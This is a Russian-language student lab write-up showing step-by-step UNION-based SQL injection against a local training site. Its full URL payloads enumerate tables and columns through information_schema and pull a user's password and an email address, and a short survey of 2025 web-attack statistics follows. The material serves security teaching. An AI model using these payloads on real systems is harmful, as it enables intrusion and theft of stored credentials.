










Поднял образ, нажал на сайте кнопку установить базу и перешел к заданиею

Попробовал после task различные цифры, увидел что таких url нету, продолжил подбирать, get=, id= и тд, потом вспомнил что при передаче параметров в поисковой строке используется спец символ ?, и как вариант ?id=число выдал мне html, где есть id= и login


Перебираем, узнаем что нужный id для volk2 это 9

Теперь нужно узнать количество столбцов

пробуем ```'?id=1' ORDER BY 1 --+```



Перебираем, на цифре 4 у нас ошибка



Значит столбцов 3

Теперь нужно узнать отображаемые поля, по ссылке https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet

было сказано что можно в id писать -1, чтобы не вовзаращали реальные поля

Узнаем что в возвращаемых полях за что отвечает запрос 

```http://localhost:8080/task/?id=-1%27UNION%20SELECT%201,%202,%203%20--+```
(так как столбцов 3: 1,2,3)
видим что можем вместо 2 что то подставлять свое при ответе, используя уезвимость





Снова обратился к ссылке, узнал что можно обратиться к информационной таблице чтобы узнать какие таблицы есть у нас в бд, а именно information_schema

```http://localhost:8080/task/?id=-1%27%20UNION%20SELECT%201,%20group_concat(table_name),%203%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--+``


используй gropup_contact объединяемв ответ и получаем список таблиц, а именно users и emails




Предположил что пароль в таблице users,  получаю список колонок в ней


```http://localhost:8080/task/?id=-1%27%20UNION%20SELECT%201,%20group_concat(column_name),%203%20FROM%20information_schema.columns%20WHERE%20table_name=%27users%27%20--+```



видим колонку password, составляю финальный запрос чтобы получить что лежит в ней для id=9


```http://localhost:8080/task/?id=-1%27%20UNION%20SELECT%201,%20password,%203%20FROM%20users%20WHERE%20id=9%20--+```



Итого пароль:
``` Wa spoiuuuuu ```

Для задания 2, нужно получить почту винни пуха, также как и в задании 1, узнаем ее id, это будет id=4



Знаем что есть таблицы users и emails из первого задания, давайте посмотрим что лежит в emails

Она уже по короче, в ней только два поля id, email_id



Странно, что нет поля email, только email_id, посмотрим тогда в нем, для id=4

```http://localhost:8080/task/?id=-1%27%20UNION%20SELECT%201,%20email_id,%203%20FROM%20emails%20WHERE%20id=4%20--+```



email- вот honey_lover@otus-lab.com


Часть с исследованием


####  1. Где брал информацию 

Для анализа я взял свежие отчеты по кибербезопасности за прошлый год и начало 2026-го. В основном это данные  Verizon (DBIR 2025) , свежий  OWASP Top 10  (версия 2025 года) и статистика от наших компаний:  Positive Technologies ,  Solar  и  RED Security . Также посмотрел отчеты  Wallarm  по угрозам для API.

####  2. Насколько часто атакуют через веб 

Цифры в разных источниках немного отличаются, но общая картина такая:

- Если верить  Forescout , то через веб-сервисы идет больше половины всех атак — около  61% .
- Verizon  в своем отчете за 2025 год пишет, что эксплуатация уязвимостей стала причиной каждой пятой серьезной утечки данных ( 20% ).
- В России, судя по данным  Solar , количество найденных дыр в вебе за год выросло  в 3.2 раза . Это связывают с тем, что компании начали массово внедрять разные AI-сервисы и личные кабинеты, которые не всегда успевают нормально проверить на безопасность.

####  3. Рейтинг уязвимостей

OWASP Top 2025:

1.  Нарушение контроля доступа (Broken Access Control)  — по-прежнему на 1 месте. Это когда один пользователь может залезть в данные другого или админку просто подставив другой ID в ссылке.
2.  Ошибки настройки (Security Misconfiguration)  — поднялись выше в рейтинге. Сейчас всё в облаках, и часто забывают закрыть доступ к базам или оставляют стандартные пароли.
3.  Цепочка поставок (Software Supply Chain)  — это вообще тренд. Хакеры ломают не саму компанию, а какую-нибудь популярную библиотеку или плагин (например, для WordPress), который эта компания использует.

 По количеству:  Чаще всего находят  XSS (межсайтовый скриптинг)  — их почти 20% от общего числа. Но они обычно менее опасны, чем SQL-инъекции или плохой контроль доступа.


Источники: 
1. Beyond Identity / Verizon. Verizon DBIR 2025: Access is Still the Point of Failure. Аналитический отчет - https://www.beyondidentity.com 
2. Fortra / Verizon. Verizon 2025 Data Breach Investigations Report (DBIR) Highlights: Evolution of Third-Party Threats. - https://www.fortra.com 
3. InfoWatch / Forescout. Глобальная аналитика кибератак и векторов угроз на основе данных Forescout Research Labs. https://www.infowatch.ru 
4. OWASP Foundation. OWASP Top 10:2025. Проект стандарта безопасности веб-приложений. - https://owasp.org/Top10 
5. SecureFlag. Educational Roadmap: OWASP Top 10:2025 Learning Paths for Developers - https://www.secureflag.tech)
6. SiliconANGLE / Wallarm. API Security Research: Exploiting AI-era Breaches at Machine Speed. https://siliconangle.com
7. TWCERT/CC. Analysis of the 2025 OWASP Top 10 Web Application Security Risks.https://www.twcert.org.tw
8. PConline / 360 Digital Security. Annual Vulnerability Report 2025: Statistical Analysis of Monthly Threats.https://www.pconline.com.cn  
9. ComNews / RED Security. Статистический анализ кибератак на корпоративный сектор РФ в 2025 году. — 2025. — 6 ноября. — https://www.comnews.ru/content/242214/2025-11-06/2025-w45/1009/bolee-105-000-nachala-2025-go-chislo-kiberatak-biznes-rossii-vyroslo-pochti-vdvoe
10. CNews. Динамика развития угроз информационной безопасности в РФ: итоги 2025 года. — https://www.cnews.ru/news/top/2026-01-23_pochti_polovina_kiberatak
11. Финам / Positive Technologies. Экспертная оценка эффективности систем реагирования на инциденты ИБ в 2025 году. https://www.finam.ru
12. IT-World.ru / ГК «Солар». Исследование ландшафта веб-уязвимостей: влияние интеграции AI-сервисов на защищенность систем. https://www.it-world.ru 
13. РБК Аналитический обзор устойчивости российских компаний к многократным кибератакам. https://companies.rbc.ru/news/6CAuTI6cO4/29-rossijskih-kompanij-perezhili-bolee-10-kiberatak-za-2025-god/